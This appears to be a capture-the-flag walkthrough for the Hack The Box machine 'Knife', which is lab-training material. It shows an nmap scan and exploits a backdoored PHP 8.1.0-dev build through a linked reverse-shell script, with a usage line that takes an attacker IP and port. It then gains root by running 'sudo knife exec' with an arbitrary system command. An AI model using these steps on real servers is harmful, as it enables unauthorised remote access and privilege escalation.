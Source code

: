 # CTF: [HTB Knife](https://app.hackthebox.eu/machines/Knife)
## Notes
```
10.10.10.242


scan:

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

headers:
X-Powered-By: PHP/8.1.0-dev
https://www.exploit-db.com/exploits/49933

use python script to gain shell

user.txt:[]

sudo -l shows:
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

sudo knife exec -E 'system("cat /root/root.txt")'

root.txt:[]
```
## Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```
Navigate to the address
on a browser and inspect the headers. The server is running PHP 8.1.0-dev. There has been a recent exploit that abuses this version, 
allowing attackers to run arbitrary code. 
## PHP 8.1.0-dev exploit
We are going to use 
[this Python script](https://github.com/prodseanb/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) to get a shell.
<br/><br/>
Download the script and execute.
```
Usage: python3 revshell_php_8.1.0-dev.py [target URL] [Attacker IP] [port]
```
The first flag (user.txt) is under `/home/james`.
## Privilege escalation/root flag
Run `sudo -l`.
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
It seems like we can use knife to execute with root privileges. Run this command to get the root flag.
```
sudo knife exec -E 'system("cat /root/root.txt")'
```
